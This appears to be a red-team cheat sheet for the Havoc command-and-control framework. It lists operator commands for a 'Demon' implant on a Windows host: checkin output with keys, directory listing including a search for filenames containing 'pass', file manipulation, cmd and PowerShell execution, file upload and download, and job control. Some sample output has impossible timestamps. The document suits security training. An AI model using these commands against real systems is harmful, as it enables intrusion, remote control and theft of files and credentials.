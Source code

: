 # 02 - Basic Commands

Search Tag(s): #havoc #command-and-control #interactive-shell

## 2.1 - Check Request

```
Demon » checkin
[*] [47DC3265] Tasked demon send back a checkin request
[+] Send Task to Agent [8 bytes]
[*] Received checkin request

Teamserver:
  - Session Path       : /home/user/Havoc/Teamserver/data/loot/agents/7486e39a

Meta Data:
  - Agent ID           : 7486e39a
  - Magic Value        : 0
  - First Call In      : 02/10/2022 15:58:30
  - Last  Call In      : 02-10-2022 15:58:55
  - AES Key            : 088a0070eca06ee6fc5caaf468f0aa04f2f264c6be9cf8cc2a92b60ca4b45ea4
  - AES IV             : a4ecf6e8c8be96ac8ebe30c84ca6f2ba
  - Sleep Delay        : 5

Host Info:
  - Host Name          : DESKTOP-85J2L4M
  - User Name          : aiden
```

## 2.2 - Navigation

```
Demon » cd <directory_name>

Demon » pwd
[+] Send Task to Agent [12 bytes]
[*] Current directory: C:\Users\aiden
```

## 2.3 - Sleep and Jitter

```
Demon » sleep 10 25
```

## 2.4 - List Contents

```
Demon » dir c:\
[*] [32D45E71] Tasked demon to list directory: c:\
[+] Send Task to Agent [25 bytes]
[*] List Directory: c:\\*

 Size         Type     Last Modified         Name
 ----         ----     -------------------   ----
              dir      01/10/2022 03:21:15   $Recycle.Bin
              dir      24/09/2022 13:21:14   $WinREAgent
              dir      01/10/2022 31:58:16   Config.Msi
              dir      31/08/2022 26:19:14   Documents and Settings
 12.29 kB     file     02/10/2022 55:56:15   DumpStack.log.tmp
 738.20 MB    file     02/10/2022 55:56:15   pagefile.sys
              dir      02/10/2022 38:15:12   PerfLogs
              dir      02/10/2022 29:57:12   Program Files
              dir      02/10/2022 40:57:12   Program Files (x86)
              dir      02/10/2022 36:57:12   ProgramData
              dir      16/09/2022 34:43:22   Recovery
 268.44 MB    file     02/10/2022 55:56:15   swapfile.sys
              dir      02/10/2022 46:56:15   System Volume Information
              dir      26/09/2022 29:53:15   Temp
              dir      02/10/2022 59:13:12   Users
              dir      02/10/2022 58:56:12   Windows
```

TODO: cover each flags on what it does

```
/b -> List only
```

List only the files.

```
Demon » dir [<drive_letter>:]\path\to\directory\ /f
```

List only the directories.

```
Demon » dir [<drive_letter>:]\path\to\directory\ /d
```

Recursive through sub directories

```
Demon » dir [<drive_letter>:]\path\to\directory\ /s
```

Starts a specific string in a filename

```
Demon » dir [<drive_letter>:]\path\to\directory\ /starts document
```

Ends a specific string in a filename

```
Demon » dir [<drive_letter>:]\path\to\directory\ /ends .txt
```

Contains a specific string in a filename

```
Demon » dir [<drive_letter>:]\path\to\directory\ /contains pass
```

## 2.5 - File Manipulation

Create directory

```
Demon » mkdir C:\path\to\new_directory\
```

Copy file

```
Demon » cp C:\path\to\remote\file.txt C:\path\to\remote\copied_file.txt
```

Move file

```
Demon » mv C:\path\to\remote\file.txt C:\path\to\remote\moved_file.txt
```

Display content's from the file.

```
Demon » cat C:\path\to\remote\file.txt
```

Delete file

```
Demon » remove C:\path\to\remote\file.txt
```

## 2.6 - Execute Shell Commands

### 2.6.1 - Help Menu

```
Demon » help shell

 - Command       :  shell
 - Description   :  executes cmd.exe commands and gets the output
 - Behavior      :  Process Creation
 - Usage         :  shell [commands]
 - Example       :  shell dir c:\windows\system32

Demon » help powershell

 - Command       :  powershell
 - Description   :  executes powershell.exe commands and gets the output
 - Usage         :  powershell [commands]
 - Example       :  powershell dir c:\windows\system32
```

### 2.6.2 - Usage

Execute any `shell` command that the demon implant spawns a child process `cmd.exe`.

```
Demon » shell <command> [arguments]
```

Spawns a child process of `powershell.exe`.

```
Demon » powershell <cmdlet> [arguments]
```

## 2.7 - Upload and Download Files

Download files

```
Demon » download [<drive_letter>:\]path\to\remote\file.txt
```

Upload files

```
Demon » upload /path/to/local/file.txt [<drive_letter>:\]path\to\remote\file.txt
```

## 2.8 - Transfer Files Queue

```
Demon » help transfer

 - Command       :  transfer
 - Description   :  download transfer module
 - Behavior      :  API Only
 - Usage         :  transfer <subcommand>
 - Example       :  transfer list

  Command                        Description      
  ---------                      -------------     
  list                           list current downloads
  stop                           stops a download
  resume                         resumes a download
  remove                         stops and removes a download

Demon » help transfer list

 - Module        :  transfer
 - Sub Command   :  list
 - Description   :  list current downloads
 - Behavior      :  API Only

Demon » help transfer stop

 - Module        :  transfer
 - Sub Command   :  stop
 - Description   :  stops a download
 - Behavior      :  API Only
 - Usage         :  transfer stop <FileID>
 - Example       :  transfer stop ffff

Demon » help transfer resume

 - Module        :  transfer
 - Sub Command   :  resume
 - Description   :  resumes a download
 - Behavior      :  API Only
 - Usage         :  transfer resume <FileID>
 - Example       :  transfer resume ffff

Demon » help transfer remove

 - Module        :  transfer
 - Sub Command   :  remove
 - Description   :  stops and removes a download
 - Behavior      :  API Only
 - Usage         :  transfer remove <FileID>
 - Example       :  transfer remove ffff
```

## 2.9 - Jobs Queue

List job identifiers.

```
Demon » job list
```

Suspend job.

```
Demon » job suspend <job_id>
```

Resume job after suspension.

```
Demon » job resume <job_id>
```

Terminate job.

```
Demon » job kill <job_id>
```

List tasks.

```
Demon » task list
```

Clear all commands in queue to stop the task being executed.

```
Demon » task clear
```

## 2.10 - Terminate Implant

```
Demon » exit
```